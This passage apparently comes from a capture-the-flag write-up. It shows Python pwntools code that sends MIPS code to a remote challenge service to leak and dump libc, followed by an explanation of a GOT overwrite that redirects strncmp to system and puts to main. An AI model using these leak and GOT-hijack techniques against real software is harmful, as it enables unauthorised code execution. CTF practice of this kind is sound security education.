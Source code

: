 ```python
        lines.append('sub $a0, $a0, $t1')
        lines.append('li $t1, {}'.format(2**(i-3)))
        lines.append('add $v0, $v0, $t1')
        lines.append('div8_{}:'.format(i-1))
    return '\n'.join(lines)

STRCMP_LIBC_OFF = 0x13a6b0

code = """
li $t0, 2155911681
lw $a0, $t0
sub $a0, $a0, {}
li $v0, 1
syscall
sub $a0, $a0, 67108860
""".format(STRCMP_LIBC_OFF) + div8() + """
li $t0, 2147483648
add $t0, $v0, $t0
dump:
lw $a0, $t0
li $v0, 1
syscall
add $t0, $t0, 1
j dump
"""

prog = log.progress('Solving PoW')
conn = pow(True)
prog.success()

prog = log.progress('Sending code')
conn.sendline(code)
conn.sendline('END')
prog.success()

prog = log.progress('Leaking libc')
libc = int(conn.recvline()) & 0xffffffff
prog.success('0x{:08x}'.format(libc))

prog = log.progress('Dumping libc')
with open('libc_dump', 'wb') as f:
    try:
        while True:
            val = int(conn.recvline()) & 0xffffffff
            f.write('\x00'*4 + p32(val))
    except (EOFError, ValueError):
        pass
prog.success()
```

We determined that the dump corresponded to libc `2.23-0ubuntu10` (32 bit), which we should have figured out earlier, as it's the 32 bit version of the same libc used in all the other pwnables... oh well.
Let's exploit this.
We decided to go with a GOT overwrite (through `sw`).
We noticed that there aren't calls to GOT functions with a controlled first argument (i.e., hijackable to `system`) after executing MIPS code.
However, the instruction reading loop, which happens before executing code, calls `strncmp` with user input as the first argument.
Since we can get a call to `puts` at the end of code execution to print `Unknown instruction`, we first overwrote the GOT entry for `strncmp` to `system`, and then overwrote the GOT entry for `puts` to `main`.